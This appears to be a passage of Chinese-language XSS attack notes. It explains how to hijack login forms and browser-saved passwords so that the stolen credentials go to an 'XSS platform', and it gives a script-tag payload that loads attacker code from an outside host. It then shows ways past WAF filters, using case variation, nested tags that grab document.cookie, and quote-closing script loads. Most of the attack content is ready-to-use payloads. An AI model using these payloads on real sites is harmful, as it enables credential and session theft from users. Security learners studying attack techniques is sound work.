   利用表单劫持，得到用户输入的账号密码，并抄送到XSS平台上去，再应用到XSS攻击中。

  前提条件1：明文密码；前提条件2：XSS存在于登录框才行，比较鸡肋

  ![image-20220801104453015](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801104453015.png)

  ![image-20220801104215899](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801104215899.png)

  

- 若浏览器保存帐号密码

  浏览器读取帐号密码。根据表单配置XSS平台，然后写入XSS代码。

  确定注册时的表单属性信息：

  ![image-20220801104757064](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801104757064.png)

  在XSS平台创建一个项目，点击配置，选择获取浏览器保存的账号密码：

  ![image-20220801104653286](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801104653286.png)

  按照网站的表单信息填写相应的属性：

  ![image-20220801104836681](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220801104836681.png)

  配置完成后，按照XSS平台提供的攻击语句在浏览器执行攻击，比如`<sCRiPt sRC=//xsshs.cn/9TUt></sCrIpT>`。

## 常规WAF绕过思路

常见WAF过滤的标签：

```
<script>  <a>  <p>  <img>  <body> <button>  <var>  <div>  <iframe>  <object> <input> 
<textarea>  <keygen> <frameset>  <embed>  <svg>  <math>  <video>  <audio> <select>
```

### 黑名单（大小写绕过）

过滤单引号、双引号、<、>、on开头的单词等非法字符。

比如过滤script，但是没有考虑大小写：

`<SCRIPT>alert(document.cookie)</SCRIPT>`

### 删除黑名单字段（重复数据绕过）

尝试在 `<script>` 中再嵌套一个 `<script>`绕过：

`<scr<script>ipt>alert(document.cookie)</SCRIPT>`

### 特殊符号干扰

- 引号闭合参数，不要>

  如果对<>进行了过滤，无法使用，可以用引号闭合链接（对于来自XSS平台的含有XSS的恶意链接）。

  比如`<script src='https://xxs8.cc/xxxx'`是有可能成功攻击的。
